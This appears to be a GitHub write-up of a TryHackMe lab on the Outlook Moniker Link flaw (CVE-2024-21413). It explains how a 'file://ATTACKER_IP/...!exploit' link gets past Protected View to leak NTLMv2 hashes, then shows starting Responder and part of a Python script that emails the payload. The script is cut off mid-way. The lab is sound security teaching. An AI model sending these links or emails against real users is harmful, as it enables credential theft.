 Microsoft Outlook supports rendering emails in HTML and can handle various hyperlinks including `http`, `https`, and `file://`. The vulnerability lies in how Outlook handles **file:// Moniker Links**.

### 🔒 What is Protected View?

![Outlook Protected View Warning](https://github.com/user-attachments/assets/fabdd20b-34f2-4351-8692-92aecc0b5de7)

> Example of Outlook's default behavior when opening hyperlinks from untrusted sources.  
> This dialog is often bypassed using the Moniker Link `!` trick.


Protected View is a security mechanism in Outlook designed to sandbox content from unknown or external sources (e.g., links or macros). It usually prevents suspicious links from being automatically opened.

### 🧨 Bypass via Moniker Link

An attacker can craft a Moniker Link that includes a `!` (exclamation mark) and additional characters to **bypass Protected View**.

#### 📂 Example Payload

```html
<a href="file://ATTACKER_IP/share!exploit">Click me</a>
```

- This causes the victim's system to attempt authentication with the attacker’s SMB server.
- The **NTLMv2 hash** of the victim’s credentials is sent automatically.
- No user interaction is required beyond clicking the link.

Note: While the CVE has RCE potential through Windows COM object abuse, no public PoC currently exists for that part.

---

## 💥 Task 3: Exploitation

### ⚙️ Step-by-Step Exploit

1. **Start Responder** on the AttackBox:
   ```bash
   sudo responder -I ens5
   ```
   ![AttackBox Launch](https://github.com/user-attachments/assets/c6e770fc-576f-45fd-8597-fa95af53c080)

   *AttackBox에서 Responder를 실행하여 SMB 인증 요청을 대기하는 모습*

2. **Create PoC Script** to Send Email

   ![Writing Exploit Script](https://assets.tryhackme.com/additional/CVE-2024-21410/abcopypaste.gif)
   *PoC 이메일 스크립트를 작성 중인 모습*

   ```python
   from email.mime.text import MIMEText
   from email.mime.multipart import MIMEMultipart
   import smtplib

   sender_email = "attacker@monikerlink.thm"
   receiver_email = "victim@monikerlink.thm"
   password = "attacker"

   html_content = '''<a href="file://ATTACKER_IP/test!exploit">Click me</a>'''

   msg = MIMEMultipart()
   msg["Subject"] = "CVE-2024-21413"
   msg["From"] = "attacker"
   ```